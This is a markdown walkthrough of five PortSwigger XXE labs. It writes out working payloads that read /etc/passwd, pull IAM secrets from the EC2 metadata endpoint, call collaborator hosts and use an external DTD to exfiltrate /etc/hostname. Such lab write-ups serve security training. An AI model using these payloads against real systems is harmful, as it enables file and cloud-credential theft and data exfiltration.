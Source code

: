 # XML External Entity (XXE) injection

## Lab 1: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb985550-dc41-473f-bd2f-39d16da37bc2)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/5f826b3e-8fdc-4d27-8692-a3656cde0dba)

* Forward the request. We will get the `passwd` file
* Thus, the lab is solved.

## Lab 2: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/d3bb9191-7155-4b48-8e75-6714d1ea5ecd)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb1bcdbc-db7b-452b-beb8-3ae06eac84e8)

* Forward the request. We will obtain the server's IAM secret access key from the EC2 metadata endpoint.
* Thus, the lab is solved.

## Lab 3: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

* Give the below payload between the XML declaration and `stockcheck` element and your own Burp Collaborator payload.

      <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://8enq6m2m8qzud1x82itu68s9a0gr4hs6.oastify.com"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/717b869f-17ec-4577-9cf1-d32b92ebb7b3)

* Forward the request, we will get that lab is solved.

## Lab 4: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

* Give the below payload between the XML declaration and `stockcheck` element and your own Burp Collaborator payload.

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://yuw9ydysol5e9y6vowhoq7umpdv4jv7k.oastify.com"> %xxe; ]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/16265929-1738-412d-808f-30dc54ea3f41)

* Forward the request, we will get that lab is solved.

## Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

### Sol :

* Click `check stock`, Intercept the request and send it to the repeater.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1fdc3ff1-6307-4364-ab33-b019b34f3597)

* Go to `Exploit Server` and create a `dtd` payload of below:

      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
      %eval;
      %exfil;

* Replace the `BURP-COLLABORATOR-SUBDOMAIN` with your own collaborator payload.
* Save this payload with .dtd extension
* Store the payload and click `View exploit` and take a note of URL.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/574bc151-ecfc-4e52-9ad9-ead0564cf9c3)

* Give below payload as external entity definition in between the XML declaration and the `stockCheck` element by giving your own DTD URL.

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/608286ee-387a-4062-840a-9f69b9754dde)

* Go to `Burp Collaborator` and see the `HTTP` request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/338bcfe1-c2d9-4e4b-ba2c-6209faea1a56)

* Enter the `x` code to solve the lab. Thus, the lab is solved.
